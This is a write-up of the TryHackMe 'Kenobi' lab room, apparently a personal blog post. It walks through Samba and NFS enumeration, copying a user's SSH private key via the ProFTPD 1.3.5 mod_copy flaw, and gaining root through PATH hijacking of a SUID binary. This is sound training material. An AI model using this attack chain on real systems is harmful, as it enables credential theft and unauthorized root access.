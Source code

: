 ```yaml
---
title: Kenobi Walkthrough - Tryhackme
tags: [Boot2root,Samba,ProFTPD,NFS,SUID]
published: true
description: My walkthrough of the Kenobi room by tryhackme. 
toc: true
image: ../../../assets/images/Kenobi/logo.png
thumbnail: ../../../assets/images/Kenobi/logo.png
---
```



<img src = "../../../assets/images/Kenobi/logo.png">

[Kenobi](https://tryhackme.com/room/kenobi) is a nice room which invloves enumerating Samba, NFS shares, exploiting ProFtpd and then using SUID binary to escalate privileges.


### Task 1 - Deployment of Machine
1. Deploy the machine and scan for open ports in it.
2. Running Nmap on the host shows 7 ports are open.
```bash
 nmap -sC -sV -p- [HOST-IP] 
```

<img src= "../../../assets/images/Kenobi/nmap-res.png">


Nmap script tells a lot about the host. The following points are to be noted here
- The host is running Linux.
- There's a website running on port 80, which has 1 disallowed entry in `robots.txt`, also the script found an `admin.html` page. 

<img src ="../../../assets/images/Kenobi/robots.png">

- `admin.html` is just a "trap".
- Nmap shows that the host is running samba. Let's enumerate it, which is also the next task.

### Task 2 - Enumerating Samba Shares

Samba has two ports 139, 445. <br />

<img src="../../../assets/images/Kenobi/samba.png">

Nmap can enumerate Samba shares using nse scripts.
```bash
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse [HOST-IP]
```

Another way to do it is using the `smbclient`.
```bash
smbclient -N -L //[HOST-IP]/
```

The `-N` does not check for password and `-L` is to list the shares available.

<img src="../../../assets/images/Kenobi/samba_shares.png">

1. Host has 3 samba shares, of which `anonymous` is of our interest.

Now, connect to the `anonymous` share.
```bash
smbclient -N //[HOST-IP]/anonymous
```

<img src="../../../assets/images/Kenobi/anonymous.png">

You can recursively download the SMB share too. Submit the username and password as nothing.
```bash
smbget -R smb://[HOST-IP]/anonymous
```

2. There is a **log.txt** file in the share.

`log.txt` conatains information about SSH key and ProFTPD and Samba configurations.

<img src="../../../assets/images/Kenobi/log1.png">
<img src="../../../assets/images/Kenobi/log2.png">

This information might be useful later.


3. FTP is running on port **21**.

Earlier nmap port scan had shown port 111 running the service rpcbind. This is just a server that converts remote procedure call (RPC) program number into universal addresses. When an RPC service is started, it tells rpcbind the address at which it is listening and the RPC program number its prepared to serve. 

In our case, port 111 is access to a network file system. Let's use nmap to enumerate this.
```bash
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount [HOST-IP]
```

<img src="../../../assets/images/Kenobi/nfs.png">

4. What mount can we see? **/var**

### Task 3 - Gaining Initial Access: Exploiting ProFtpd

1. From Nmap port scan result, ProFtpd version is **1.3.5**.

Checking the Exploit-DB for ProFtpd
```bash
searchsploit proftpd
```

<img src="../../../assets/images/Kenobi/xdb.png">

2. There are **3** exploits for this version of Proftpd.

There is an exploit on the `mod_copy module`. The mod_copy module implements SITE CPFR and SITE CPTO commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.

Now since the FTP service is running as kenobi user(from log.txt) we can get the private key of kenobi using SITE CPFR and SITE CPTO commands.
```bash
nc [HOST-IP] 21
```

<img src="../../../assets/images/Kenobi/cpto.png">

We put the private key in `var` because it can be mounted using nfs.

Mount the `/var` directory.
```bash
mkdir /mnt/kenobiNFS <br />
mount [HOST-IP]:/var /mnt/kenobiNFS <br />
cp /mnt/kenobiNFS/tmp/id_rsa .
```

We now have the private key of kenobi, use this to log in as kenobi and get the user flag.
```bash
ssh -i id_rsa kenobi@[HOST-IP]
```


### Task 4 - Privilege Escalation

Search for SUID binaries in the system.
```bash
find / -perm -u=s -type f 2>/dev/null
```

<img src="../../../assets/images/Kenobi/find.png">

1. What file looks particularly out of the ordinary? **/usr/bin/menu** which is running as root.

Run the menu binary.
```bash
menu
```

<img src="../../../assets/images/Kenobi/menu.png">

2. Run the binary, how many options appear? **3**

Run strings on it to see what is happening internally.
```bash
strings /usr/bin/menu
```

<img src="../../../assets/images/Kenobi/strings.png">

This shows us the binary is running without a full path (e.g. not using /usr/bin/curl or /usr/bin/uname).
We can create a malicious curl binary and add it to `$PATH`, so that when `menu` is executed it calls malicious curl.
```bash
echo /bin/sh > /tmp/curl 
chmod 777 /tmp/curl 
export PATH=/tmp:$PATH 
menu
```
<Img src="../../../assets/images/Kenobi/curl.png">

Get the root flag!